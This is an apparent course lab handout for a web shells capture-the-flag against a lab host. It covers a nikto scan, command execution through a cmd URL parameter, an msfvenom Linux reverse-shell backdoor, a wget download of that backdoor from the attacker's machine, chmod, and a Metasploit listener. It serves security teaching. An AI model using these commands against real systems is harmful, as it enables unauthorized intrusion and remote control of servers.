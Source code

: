 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Web Shells CTF

## Web Shells

This will be in the form of a Capture the Flag based on everything you’ve learned so I’ll provide hints only.

### Preparation

Put your Kali workstation on your **WAN** segment. That is the only host you’ll need for this lab.

The Victim IP is: 10.0.16.97

### Starting the CTF

You’ll first scan the web server looking for vulnerable web applications. The program **nikto** is a well-known application scanner. It ONLY scans to see if the application is present. Keep in mind, that it will scan for known application filenames. You may have a custom script named: info.php but isn’t vulnerable. **Locate a tutorial showing how to perform a basic scan of a web server using nikto**. Remember to use the Victim IP above ONLY.

If a file shows up that is ‘vulnerable’ you’ll see something like “This might be interesting…” The filename aka “script” will be on the left of that line. Look for something like:

**OSVBD-1234: /filename.php**

The “/filename.php” is what you want to use for the rest of the CTF.

**NOTE: THE REAL SCRIPT IS NOT filename.php.**

When you find the script name, it is vulnerable to a remote command execution (RCE) attack. An RCE is dangerous because anyone on the internet (if the script or application is publicly accessible) can exploit it. Exploit means to take advantage of a weakness. A weakness is a system or application is called a vulnerability. Essentially, they can execute any command with the permission of the user they compromised. In this case, the web server user.

Open your firefox browser on Kali. Browse to the victim IP and add the script name. The vulnerability is taken advantage of by running:

[http://10.0.16.97/filename.php?cmd=ip](http://10.0.16.97/filename.php?cmd=ip) a

**NOTE: filename.php is NOT the real script name. It is the script found in the nikto scan**.

That will show the IP information for the victim server. It will look weird so right-click inside your browser and select “View Page Source.” See how pretty it is now?

Essentially, the victim server script is the same as you typing on the command line on your Kali system. The victim serve is running Linux and the script is allowing you to run any command that the web user can run. SEE THE PROBLEM?

### Create a backdoor

Use msfvenom to create a LINUX backdoor.

Find a tutorial that shows how to use msfvenom to create a Linux backdoor(also in the tutorial you’ll see: -f elf) as the type of the file to create. When you save the backdoor, be sure to name it with your first and last name so you can get your reward. For example, I would name the file: > duane.dunston.bin

**NOTE: Pay close attention to PAYLOAD used with msfvenom. The payload is the syntax after the “-p” command with msfvenom. IT IS IMPORTANT. If you used:**

**-p linux/x64/shell\_reverse\_tcp**

**then you will need that information for later.**

After you create the backdoor, copy the file to your web root on Kali and be sure your web server is started.

### Download the backdoor

**PLEASE DO NOT DELETE ANYONE’S BACKDOOR**

Back in Firefox, now that you can run arbitrary commands you will download the backdoor. In firefox, type (Below is all one line):

[http://10.0.16.97/filename.php?cmd=wget](http://10.0.16.97/filename.php?cmd=wget) http://YOUR\_KALI\_IP/first.lastname.bin -O /tmp/first.lastname.bin

**wget** is a commandline version of a web browser. It is for downloading files primarily. -O specifies the filename to save the downloaded into.

Check to see if the file was downloaded:

[http://10.0.16.97/filename.php?cmd=ls](http://10.0.16.97/filename.php?cmd=ls) -l /tmp/first.lastname.bin

### Make the backdoor executable:

[http://10.0.16.97/filename.php?cmd=chmod](http://10.0.16.97/filename.php?cmd=chmod) 755 /tmp/first.lastname.bin

Be sure that command worked:

[http://10.0.16.97/filename.php?cmd=ls](http://10.0.16.97/filename.php?cmd=ls) -l /tmp/first.lastname.bin

You’ll see in the output: **rwx-r-x-r-x**

Those ‘x’ bits mean the file is executable.

### Creating a Listener

Open a terminal and start metasploit

Create a listener:

1. Set the LHOST to your Kali IP
2. Set the PORT based on the msfvenom command
3. Set the PAYLOAD to the exact payload used in the msfvenom command.
4. Check that all your options are set correctly.
5. Run: exploit

### Switch back to your web browser

Type in the URL below to execute the backdoor:

[http://10.0.16.97/filename.php?cmd=/tmp/first.lastname.bin](http://10.0.16.97/filename.php?cmd=/tmp/first.lastname.bin)

Wait a few moments to see if the connection hangs, look at the tab and you’ll see a spinning circle. If you do not see it, then double-check all of your settings above. It is supposed to hang because it is being used to create a shell.

Look at your Kali terminal and see if you have a connection.

**NOTE: Linux will not give you a command prompt. It will be a blank screen, however, you can still type commands**

Run the command below within the same Metasploit window:

**ps -ef**

Which will list all running processes on the system. Look for your backdoor on the right of the screen. You’ll see it because it will have your first and last name.

Then to capture the flag, type:

**hostname**

and you should see “IM\_HACKED”

**SUBMISSION:**

Take a screenshot of the **ps** output and annotated your backdoor.\
Take a screenshot of the ‘hostname’ output and annotate it.
